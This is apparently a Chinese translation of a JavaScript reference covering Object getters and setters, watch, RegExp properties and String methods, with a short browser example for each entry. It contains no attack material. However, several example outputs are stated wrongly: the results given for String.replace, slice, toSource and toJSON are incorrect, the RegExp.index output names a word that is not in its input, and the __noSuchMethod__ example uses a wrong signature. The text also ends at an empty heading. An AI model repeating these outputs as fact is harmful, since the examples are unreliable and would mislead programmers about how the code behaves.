**标准：** `JavaScript 1.1+`, `JScript 2.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`myObj.valueOf()`

### 描述
返回对象的原始值。

### 示例
```javascript
<script type="text/javascript">
var o = new Date();
document.write(o.valueOf()); // 1221955905498
</script>
```

## Object.watch()
**标准：** `JavaScript 1.2+`
**支持：** `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 4.0+`

### 语法
`myObj.watch(prop, function)`

### 描述
监听属性被赋值值的事件，并执行一个函数。

### 示例
```javascript
<script type="text/javascript">
var o = {p:1};
o.watch("p",
    function (id, oldval, newval) {
        document.write("o." + id + " changed from " + oldval + " to " + newval + "<br />");
        return newval;
    });
o.p = 2;
o.p = 3;
delete o.p;
o.p = 4;
o.unwatch('p');
o.p = 5;
/*
o.p changed from 1 to 2
o.p changed from 2 to 3
o.p changed from undefined to 4
*/
</script>
```

## Object.__defineGetter__(prop, funct)
**标准：** `JavaScript 1.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 6.0 (Gecko 0.6)+`, `Opera 9.0+`, `Safari 3.0+`

### 语法
`myObj.__defineGetter__(sprop, funct)`

### 描述
将一个函数与属性关联，当访问该属性时，会执行该函数并返回其结果值。

### 示例
```javascript
<script type="text/javascript">
// 获取日期原型的引用并为年份定义 getter 和 setter
var dp = Date.prototype;
dp.__defineGetter__("year", function() { return this.getFullYear(); });
dp.__defineSetter__("year", function(y) { this.setFullYear(y); });
// 现在创建一个日期
var myDate = new Date();
// 测试 getter
document.write(myDate.year + "<br />"); // 2008
// 测试 setter
myDate.year = 2100;
// 查看 setter 是否起作用
document.write(myDate.toString()); // Mon Sep 20 2100 17:21:27 GMT-0700 (PDT)
</script>
```

## Object.__defineSetter__(prop, funct)
**标准：** `JavaScript 1.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 6.0 (Gecko 0.6)+`, `Opera 9.0+`, `Safari 3.0+`

### 语法
`myObj.__defineSetter__(sprop, funct)`

### 描述
将一个函数与属性关联，当设置该属性时，会执行该函数来修改该属性。

### 示例
```javascript
<script type="text/javascript">
// 获取日期原型的引用并为年份定义 getter 和 setter
var dp = Date.prototype;
dp.__defineGetter__("year", function() { return this.getFullYear(); });
dp.__defineSetter__("year", function(y) { this.setFullYear(y); });
// 现在创建一个日期
var myDate = new Date();
// 测试 getter
document.write(myDate.year + "<br />"); // 2008
// 测试 setter
myDate.year = 2100;
// 查看 setter 是否起作用
document.write(myDate.toString()); // Mon Sep 20 2100 17:21:27 GMT-0700 (PDT)
</script>
```

## Object.__lookupGetter__(sprop)
**标准：** `JavaScript 1.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 8.0 (Gecko 1.7.5)+`, `Opera 9.0+`, `Safari 3.0+`

### 语法
`myObj.__lookupGetter__(prop)`

### 描述
返回绑定为 getter 的指定属性的函数。

### 示例
```javascript
<script type="text/javascript">
// 获取日期原型的引用并为年份定义 getter 和 setter
var dp = Date.prototype;
dp.__defineGetter__("year", function() { return this.getFullYear(); });
dp.__defineSetter__("year", function(y) { this.setFullYear(y); });
var myDate = new Date();
// 测试 getter
document.write(myDate.__lookupGetter__('year')); // function () { return this.getFullYear(); }
</script>
```

## Object.__lookupSetter__(sprop)
**标准：** `JavaScript 1.1+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 8.0 (Gecko 1.7.5)+`, `Opera 9.0+`, `Safari 3.0+`

### 语法
`myObj.__lookupSetter__(prop)`

### 描述
返回绑定为 setter 的指定属性的函数。

### 示例
```javascript
<script type="text/javascript">
// 获取日期原型的引用并为年份定义 getter 和 setter
var dp = Date.prototype;
dp.__defineGetter__("year", function() { return this.getFullYear(); });
dp.__defineSetter__("year", function(y) { this.setFullYear(y); });
var myDate = new Date();
// 测试 setter
document.write(myDate.__lookupSetter__('year')); // function (y) { this.setFullYear(y); }
</script>
```

## Object.__noSuchMethod__()
**标准：** `JavaScript 1.5+`
**支持：** `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 8.0 (Gecko 1.7.5)+`

### 语法
`myObj.__noSuchMethod__() = funct`

### 描述
当对象调用无效方法时执行该函数。

### 示例
```javascript
<script type="text/javascript">
someObj = {};
someObj.__noSuchMethod__ = function (message, type) {
    if (type == 0) {
        console.log("error");
    } else if (type == 1) {
        console.log("warning");
    }
};
someObj.invalidMethod("test", 0);
someObj.invalidMethod("test", 1);
</script>
```

## RegExp
**标准：** `JavaScript 1.2+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 6.0+`, `Opera 9.0+`, `Safari 3.0+`

### 语法
`re = new RegExp(pattern)`

### 描述
执行正则表达式匹配并存储结果信息。

### 示例
```javascript
<script type="text/javascript">
var re = new RegExp("\\w+");
var str = "abc";
var res = re.exec(str);
console.log(res[0]); // abc
</script>
```

## RegExp 属性
- `lastIndex`: 返回下次匹配开始的索引。
- `global`: 表示是否对所有可能的匹配进行表达式执行。
- `ignoreCase`: 表示字符串匹配是否区分大小写。

## RegExp 方法
- `exec(string)`: 返回匹配信息。
- `test(string)`: 如果找到匹配项则返回 true。

## RegExp.index
**标准：** `JScript 3.0+`
**支持：** `Internet Explorer 4.0+`

### 语法
`RegExp.index`

### 描述
返回字符串中第一个搜索匹配开始的字符位置。

### 示例
```javascript
<script type="text/javascript">
var myText = "Too many cooks the broth.";
var regex = /\w+/g;
var theArr = regex.exec(myText);
console.log(regex.index); // 0
</script>
```

```javascript
while ((theArr = regex.exec(myText)) != null)
    document.write(theArr.index + "-" + theArr.lastIndex + "\t" + theArr + "<br />");
/*
0-3 Too
4-8 many
9-14 cooks
15-20 spoil
21-24 the
25-30 broth
*/
```

## RegExp.input
**标准：** `JScript 3.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 6.0 (Gecko 0.6)+`, `Opera 7.0+`, `Safari 1.0+`

### 语法
`RegExp.input`

### 描述
返回执行 `RegExp` 搜索的字符串。

### 示例
```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cooks/gim;
var res = regex.exec(myText);
document.write(res.input); // Too many cooks spoil the broth. Yup. Cooks are where it's at.
</script>
```

## RegExp.lastIndex
**标准：** `JavaScript 1.2+`, `JScript 3.0+`, `ECMAScript 3.0+`
**支持：** `Internet Explorer 4.0+`

### 语法
`RegExp.lastIndex`

### 描述
开始下次匹配的字符位置。

### 示例
```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.";
var regex = /\w+/g;
var theArr;
while ((theArr = regex.exec(myText)) != null)
    document.write(theArr.index + "-" + theArr.lastIndex + "\t" + theArr + "<br />");
/*
0-3 Too
4-8 many
9-14 cooks
15-20 spoil
21-24 the
25-30 broth
*/
</script>
```

## RegExp.lastMatch


# RegExp.lastMatch

**标准:** *JScript 5.5+, ECMAScript 3.0+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 6.0 (Gecko 0.6)+, Safari 1.0+

## 语法

`RegExp.lastMatch`

## 说明

`RegExp` 搜索中最后匹配的序列。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cooks/gim;
var res = regex.exec(myText);
document.write(RegExp.lastMatch); // cooks
</script>
```

# RegExp.lastParen

**标准:** *JScript 5.5+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 6.0 (Gecko 0.6)+, Safari 1.0+

## 语法

`RegExp.lastParen`

## 说明

返回 `RegExp` 搜索中最后一个括号内的子匹配项（如果适用）。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.exec(myText);
document.write(RegExp.lastParen); // s
</script>
```

# RegExp.leftContext

**标准:** *JScript 5.5+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 8.0+, Safari 1.0+

## 语法

`RegExp.leftContext`

## 说明

返回从搜索字符串开头到上一次字符串匹配位置的字符串。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.exec(myText);
document.write(RegExp.leftContext); // Too many
</script>
```

# RegExp.multiline

**标准:** *JavaScript 1.2+, JScript 5.6+, ECMAScript 3.0+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 6.0+, Netscape Navigator 4.0+, Opera 6.0+, Safari 1.0+

## 语法

`RegExp.multiline`

## 说明

表示搜索是否跨多行文本上进行。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cooks/gim;
var res = regex.exec(myText);
document.write(regex.multiline); // true
</script>
```

# RegExp.rightContext

**标准:** *JScript 5.5+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 8.0+, Safari 1.0+

## 语法

`RegExp.rightContext`

## 说明

返回上一次字符串匹配位置之后的字符串。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.exec(myText);
document.write(RegExp.rightContext); // spoil the broth. Yup. Cooks are where it's at.
</script>
```

# RegExp.source

**标准:** *JavaScript 1.2+, JScript 5.6+, ECMAScript 3.0+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 6.0+, Netscape Navigator 4.0+, Opera 6.0+, Safari 1.0+

## 语法

`regExInstance.source`

## 说明

包含搜索模式的文本。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.exec(myText);
document.write(regex.source); // cook(s)
</script>
```

# RegExp.exec(string)

**标准:** *JavaScript 1.2+, JScript 5.6+, ECMAScript 3.0+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 6.0+, Netscape Navigator 4.0+, Opera 6.0+, Safari 1.0+

## 语法

`regExInstance.exec(string)`

## 说明

执行正则表达式表达式搜索。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.exec(myText);
document.write(res); // cooks,s
</script>
```

# RegExp.test(string)

**标准:** *JavaScript 1.2+, JScript 5.6+, ECMAScript 3.0+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 6.0+, Netscape Navigator 4.0+, Opera 6.0+, Safari 1.0+

## 语法

`regExInstance.test(string)`

## 说明

测试匹配项。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.test(myText);
if (res == true)
    document.write("A match was found.");
else
    document.write("Did not find anything.");
// out: A match was found.
</script>
```

# RegExp.toSource()

**标准:** *JavaScript 1.3+*  
**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

## 语法

`regExpInstance.toSource()`

## 说明

返回对象源代码的字符串。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.exec(myText);
document.write(res.toSource()); // ["cook(s)", "s"]
</script>
```

# RegExp.toString()

**标准:** *JavaScript 1.2+, JScript 5.6+, ECMAScript 3.0+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 6.0+, Netscape Navigator 4.0+, Opera 6.0+, Safari 1.0+

## 说明

返回一个总结对象的字符串。

## 示例

```javascript
<script type="text/javascript">
var myText = "Too many cooks spoil the broth.\nYup. Cooks are where it's at.";
var regex = /cook(s)/gim;
var res = regex.exec(myText);
document.write(res.toString()); // cooks,s
</script>
```

# String

**标准:** *JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+*  
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

`var myS = new String("some text");`

`var myOtherS = "A string literal";`

## 说明

一组有序 Unicode 值的的核心 JavaScript 对象之一。

## 属性列表


## 方法列表

  

以下示例将输出以下文本：图 AppB-1 

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.length.toString() + "<br />");
document.write(myS.big() + "<br />");
</script>
```

```javascript
document.write(myS.small() + "<br />");
document.write(myS.italics() + "<br />");
document.write(myS.toLowerCase() + "<br />");
document.write(myS.toUpperCase());
```

# String.length

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myString.length
```

## 说明

返回字符串的长度（字符数，而非字节）。空字符串返回 0。

## 示例

```javascript
<script type="text/javascript">
var myS = new String("Hello");
document.write(myS.length); // 5
</script>
```

# String.prototype

**标准:** `JavaScript 1.1+`, `JScript 3.0+`, `ECMAScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
String.prototype.property
String.prototype.method
```

## 描述

原型属性允许你扩展对象，以便为所有实例添加新的属性和方法。

## 示例

```javascript
<script type="text/javascript">
// 创建一个移除字符串中非字母数字字符的函数
function stripNonAlpha() {
    return this.replace(/[^a-zA-Z 0-9]+/g, "");
}
// 扩展字符串原型包含该方法
String.prototype.stripNonAlpha = stripNonAlpha;
// 创建一个字符串对象
var myString = "This is a @#$# test!";
// 测试方法
document.write(myString.stripNonAlpha()); // This is a test
</script>
```

# String.anchor(anchorString)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myString.anchor(name)
```

## 描述

根据字符串和参数创建一个超文本 HTML 锚点标签。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.anchor("mytag")); //<a name="mytag">This is a string literal</a>
</script>
```

# String.big()

**标准:** `JavaScript 1.0+`, `JScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.big()
```

## 描述

从字符串创建一个 HTML BIG 标签。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.big()); //<big>This is a string literal</big>
</script>
```

# String.blink()

**标准:** `JavaScript 1.0+`, `JScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.blink()
```

## 描述

从字符串创建一个 HTML BLINK 标签。注意：在 Google Chrome 中，blink 标签无法正常渲染。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.blink()); //<blink>This is a string literal</blink>
</script>
```

# String.bold()

**标准:** `JavaScript 1.0+`, `JScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.bold()
```

## 描述

从字符串创建一个 HTML BOLD (b) 标签。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.bold()); //<b>This is a string literal</b>
</script>
```

# String.charAt(pos)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.charAt(n)
```

## 描述

返回字符串中的指定 Unicode 字符。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.charAt(3)); // s
</script>
```

# String.charCodeAt(num)

**标准:** `JavaScript 1.2+`, `JScript 5.5+`, `ECMAScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.charCodeAt(n)
```

## 描述

返回指定索引处字符的 Unicode 值。在 Mozilla 平台上，JavaScript 1.3 之前（Netscape 4），`charCodeAt` 返回的是该字符的 ISO-Latin 字符集值而非 Unicode 值。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.charCodeAt(0)); // returns 84
</script>
```

# String.concat([string2[, string3[, ...]])

**标准:** `JavaScript 1.2+`, `JScript 3.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.concat([string2[, string3[, ... stringN]]
```

## 描述

按照提供的顺序合并指定的字符串。该方法不会修改任何原始字符串。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal.";
var myS2 = "This is another string literal.";
document.write(myS.concat(myS2));
// This is a string literal.This is another string literal.
</script>
```

# String.fixed()

**标准:** `JavaScript 1.0+`, `JScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.fixed()
```

## 描述

从字符串创建一个 HTML tt 标签（等字体）。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.fixed()); //<tt>This is a string literal</tt>
</script>
```

# String.fontcolor(colorVal)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.fontcolor(color)
```

## 描述

将字符串包裹在 `<FONT COLOR=color>` 标签中，从而以指定的颜色渲染。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.fontcolor("blue")); // <font color="blue">This is a string literal</font>
</script>
```

# String.fontsize(fSize)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
myStr.fontsize(size)
```

## 描述

将字符串包裹在 `<FONT SIZE=size>` 标签中，从而以特定大小渲染。大小在 1 到 7 之间。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.fontsize(7)); // <font size="7">This is a string literal</font>
</script>
```

# String.fromCharCode([code1[, code2[, ...]]])

**标准:** `JavaScript 1.2+`, `JScript 3.0+`, `ECMAScript 1.0+`

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

## 语法

```javascript
String.fromCharCode([code1[, code2[, ...[, codeN]]]])
```

## 描述

根据一组 Unicode 字符值返回一个字符串。

## 示例

```javascript
<script type="text/javascript">
var myStr = String.fromCharCode(112, 108, 97, 105, 110);
document.write(myStr); // plain
</script>
```

# String.indexOf(string[, num])

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.indexOf(searchstring[,startindex])`

## 描述

返回搜索字符串首次出现的字符位置索引。如果未找到，则返回 -1。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal.";
document.write(myS.indexOf("literal") + "<br />"); // 17
document.write(myS.indexOf("apple")); // -1
</script>
```

# String.italics()

**标准:** JavaScript 1.0+, JScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.italics()`

## 描述

从字符串中创建一个 HTML ITALICS (i) 标签。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.italics()); // <i>This is a string literal</i>
</script>
```

# String.lastIndexOf(substring[, startindex])

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.lastIndexOf(searchstring[,startindex])`

## 描述

返回搜索字符串最后一次出现的索引。如果未找到，则返回 -1。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.lastIndexOf("literal") + "<br />"); // 26
document.write(myS.lastIndexOf("apple")); // -1
</script>
```

# String.link(linkUrl)

**标准:** JavaScript 1.0+, JScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.link(hrefValue)`

## 描述

从字符串中创建一个 HTML 链接。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.link("http://www.alexeiwhite.com"));
// <a href="http://www.alexeiwhite.com">This is a string literal</a>
</script>
```

# String.localeCompare(strComp)

**标准:** JavaScript 1.2+, JScript 5.5+

**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Internet Explorer 5.5+, Netscape Navigator 4.0+, Opera 8.0+, Safari 2.0+

## 语法

`myStr.localeCompare(string)`

## 描述

返回一个值指示两个字符串在当前区域（locale）下是否相同。`localeCompare` 对 `stringVar` 和 `stringExp` 进行字符串比较，并根据系统默认区域的排序顺序返回 -1、0 或 +1。如果 `stringVar` 排序在 `stringExp` 之前，`localeCompare` 返回 -1。如果 `stringVar` 排序在 `stringExp` 之后，则返回 +1。返回值为零意味着两个字符串等等。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal. literally.";
var myS2 = "This is a string literal. literally.";
document.write(myS.localeCompare(myS2)); // 0 (the same)
</script>
```

# String.match(regEx)

**标准:** JavaScript 1.2+, JScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 6.0+, Safari 1.0+

## 语法

`myStr.match(regexp)`

## 描述

用于在字符串上执行正则表达式匹配。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal. literally.";
var regex = /literal/g;
document.write(myS.match(regex).toString()); // literal,literal
</script>
```

# String.quote()

**标准:** JavaScript 1.0+

**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

## 语法

`myStr.quote()`

## 描述

将字符串包含在双引号 (") 中。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.quote()); // "This is a string literal"
</script>
```

# String.replace(regEx, replaceString)

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.replace(regex)`

## 描述

在字符串上执行正则表达式搜索并替换。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.replace(/ /g, "")); // This.
</script>
```

# String.search(regEx)

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.search(regexp)`

## 描述

返回正则表达式在字符串中的匹配位置。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.search(/literal/)); // 17
</script>
```

# String.slice(start, end)

**标准:** JavaScript 1.0+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.slice(start, [end])`

## 描述

返回字符串的一部分，而不修改原字符串。如果没有指定 `end` 值，则返回从起始点到结尾的字符串。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.slice(10, 15)); // str
</script>
```

# String.small()

**标准:** JavaScript 1.0+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.small()`

## 描述

从字符串中创建一个 SMALL 标签。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.small()); // <small>This is a string literal</small>
</script>
```

# String.split(separatorStr, limit)

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.split([separator[, limit])`

## 描述

通过搜索字符串的每次出现处将字符串分割成字符串数组。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.split(" ", 3).toString()); // This,is,a
</script>
```

# String.strike()

**标准:** JavaScript 1.0+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.strike()`

## 描述

从字符串中创建一个 HTML STRIKE 标签（删除线）。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.strike()); // <strike>This is a string literal</strike>
</script>
```

# String.sub()

**标准:** JavaScript 1.0+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

## 语法

`myStr.sub()`

## 描述

从字符串中创建一个 SUB 标签（下标）。

## 示例

```javascript
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.sub()); // <sub>This is a string literal</sub>
</script>
```

# String.substr(start[, length])

**标准:** JavaScript 1.0+, JScript 3.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

## 语法

```
myStr.substr(start[, length])
```

## 描述

返回从 start 位置开始的包含指定字符数量的子字符串。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.substr(3,3)); // s i
</script>
```

# String.substring(start [, end])

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 描述

返回两个指定字符位置之间的子字符串。此方法与 `String.substr()` 的区别在于，第二个参数指定的是结束字符的位置而不是长度。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.substring(3,6)); // s i
</script>
```

# String.sup()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 5

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

## 语法

```
myStr.sup()
```

## 描述

从字符串创建一个创建一个 HTML SUP（上标）标签。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal";
document.write(myS + "<br />");
document.write(myS.sup()); //<sup>This is a string literal</sup>
</script>
```

# String.toJSON()

**标准:** JScript 5.8+, ECMAScript 3.1+, JavaScript 1.8+

**支持:** Internet Explorer 8.0+, Firefox 3.5+

## 语法

```
myStr.toJSON()
```

## 描述

返回字符串的 JSON 安全字面量表示形式。

## 示例

```html
<script type="text/javascript">
var myS = "This is a string literal. literally.";
document.write(myS.toJSON()); // string literal. literally.
</script>
```

# String.toLocaleLowerCase()

